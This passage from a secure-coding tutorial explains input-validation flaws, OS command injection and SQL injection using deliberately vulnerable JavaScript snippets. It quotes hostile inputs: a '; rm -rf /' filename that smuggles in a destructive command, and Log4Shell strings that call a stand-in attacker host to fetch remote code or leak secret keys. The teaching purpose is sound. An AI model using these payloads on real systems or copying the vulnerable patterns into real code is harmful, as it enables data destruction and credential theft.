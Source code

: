 4\. **Improper input validation**

We’ve already seen how allowing bad user input can cause crashes, data corruption, and unintended program execution. But unvalidated input can also take advantage of the program logic to produce undesired effects.

In the program below, a user provides a number of items to purchase.

```js
const total = price * request.body.quantity;
chargeUser(user, total);

function chargeUser(user, amount) {
  user.balance -= amount;
  user.save();
}
```

But if the quantity is negative, the user’s account gets credited instead of debited.

5\. **Improper neutralization of special elements used in an OS command (‘OS command injection’)**

Unchecked user input can also make a program execute unexpected OS commands. For example, this program returns a webpage that displays whether or not a user has uploaded a file with a given name.

```js
const { filename } = request.body;

try {
  execSync(`stat /home/${user.name}/${filename}`);
  return '<div>File exists</div>';
} catch (error) {
  if (isNoFileError(error)) {
    return '<div>File does not exist</div>';
  }
  return '<div>An error occurred</div>';
}
```

But if an attacker provides the filename as `"; rm -rf /"`, the executed command becomes `"stat /home/user-name/; rm -rf /"` and deletes the entire home directory!

The recent [log4j incident](https://medium.com/@CWE_CAPEC/neutralizing-your-inputs-a-log4shell-weakness-story-89954c8b25c9) is another good illustration of this vulnerability. Log4j, a popular Java logging library, interprets strings like `"${xyz}"` as executable expressions. An attacker could exploit the vulnerability by making the program log strings like `"${jndi:ldap://attack.example.com}"` and `"${env:SECRET_ACCESS_KEY}"`, which can fetch and run executable code from a remote source or leak sensitive information.

6\. **Improper neutralization of special elements used in an SQL command (‘SQL injection’)**

Similar to the previous weakness, unneutralized user input can also cause a program to execute unintended SQL queries.

Here’s a program that returns all the items belonging to a user which have some provided name:

```js
execute(`SELECT * FROM items WHERE owner = '${user.name}' AND name = '${itemName}'`);
```
